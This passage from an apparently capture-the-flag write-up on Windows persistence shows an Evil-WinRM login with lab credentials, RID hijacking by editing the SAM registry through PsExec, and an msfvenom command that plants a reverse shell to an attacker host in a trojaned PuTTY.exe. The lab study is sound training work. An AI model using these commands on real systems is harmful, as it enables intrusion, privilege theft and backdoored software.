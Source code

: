 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692395806742/a0f27465-721f-46e1-9ae8-8ed01d0d4466.png align="center")

From here, we can log in using `Evil-WinRM` and obtain our second flag:

```bash
evil-winrm -i 10.10.55.203 -u thmuser2 -p Password321
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692398170962/5be80f1c-b131-4042-b8b5-fd26abe2ee48.jpeg align="center")

### RID Hijacking

Another method to gain administrative privileges without actually being an administrator involves modifying registry values. When a user is created, they are assigned an identifier called the `RID`, which is universally recognized across the system. Upon login, the `LSASS` process retrieves the `RID` from the `SAM` registry and assigns a token based on the granted permissions. This is where we can manipulate the registry value to make Windows assign a specified user with an administrative access token.

By default, Windows configurations assign administrator accounts with `RID 500`. Regular accounts typically have `RID` values greater than or equal to `1000`.

Command to find RIDs for users:

```powershell
wmic useraccount get name,sid
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692395934885/0daf9171-5cbf-475e-ad72-e17b1e532305.png align="center")

As a proof of concept, we will assign `RID 500` to the `user3`. To achieve this, we need to access the `SAM` using Regedit; however, `SAM` is restricted to the `SYSTEM`, which means Administrators cannot edit it. We can work around this limitation by using `PsExec`, which is a part of `Sysinternals`.

```powershell
.\PsExec64.exe -i -s regedit
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692395991782/ada4cbca-e8bc-43b8-ac4e-55de09bb54c6.png align="center")

In Regedit, navigate to `HKLM\SAM\SAM\Domains\Account\Users\` to locate the key for user3 and modify the `RID`. Search for a key with the hexadecimal value `0x3F2`, which corresponds to `1010`. Change the bytes `F2 03` to `F4 01`, representing `RID 500`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396031637/f2e9cd13-2c9d-4384-bbee-6c7ec1270baa.png align="center")

Log in via `RDP` using the `user3` account and retrieve `flag3.exe`.

### Backdooring Files

To create a backdoored `PuTTY.exe` using `msfvenom`, follow this method.

Payload:

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp LHOST=10.13.28.215 LPORT=1337 -b "\x00" -f exe -o puttyX.exe
```
